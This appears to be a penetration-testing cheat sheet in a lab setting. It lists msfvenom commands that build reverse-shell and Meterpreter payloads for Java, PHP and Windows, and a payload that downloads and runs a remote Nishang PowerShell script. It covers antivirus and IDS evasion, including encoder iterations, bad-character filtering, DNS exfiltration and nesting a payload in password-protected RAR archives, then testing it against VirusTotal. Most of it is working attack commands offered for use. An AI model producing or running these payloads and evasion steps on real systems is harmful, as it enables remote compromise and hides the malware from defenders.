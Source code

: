 |    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |


## ****Evasion Techniques****

1. **Signature-Based Evasion**: Most anti-virus software relies on signature-based detection, which involves matching known patterns of malicious code. Evasion techniques aim to bypass these signatures to avoid detection.
2. **Payload Encoding**: Encoding payloads using various encoding schemes with multiple iterations is a common evasion method. However, this is not always sufficient to bypass all anti-virus products.
3. **Communication Channel**: Establishing a communication channel between the attacker and the victim can raise alarms with intrusion detection and prevention systems (IDS/IPS). This method may be detected due to suspicious network activity.
4. **AES-Encrypted Communication**: With tools like MSF6, attackers can tunnel AES-encrypted communication from Meterpreter shells back to the attacker's host, effectively encrypting the traffic and evading network-based IDS/IPS.
5. **IP Address Filtering**: Some strict network rulesets may flag connections based on the sender's IP address. To evade this, attackers may try to find services that are allowed through the network's filters.
6. **DNS Exfiltration**: In cases like the Equifax hack of 2017, attackers abused vulnerabilities to access critical data servers and used DNS exfiltration techniques to slowly transfer data without detection for an extended period.
7. **Payload Fingerprinting**: Anti-virus software can detect payloads by their signature, and even tools like msfconsole may have their code and files added to signature databases. This can result in the immediate blocking of default payloads.

`XeroCyb3r@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`

{% highlight bash %}
XeroCyb3r@htb[/htb]$ rar a ~/test.rar -p ~/test.js
XeroCyb3r@htb[/htb]$ mv test.rar test
XeroCyb3r@htb[/htb]$ rar a test2.rar -p test
XeroCyb3r@htb[/htb]$ mv test2.rar test2
{% endhighlight %}

`XeroCyb3r@htb[/htb]$ msf-virustotal -k <API key> -f test2`

## Packers

The term Packer refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file.

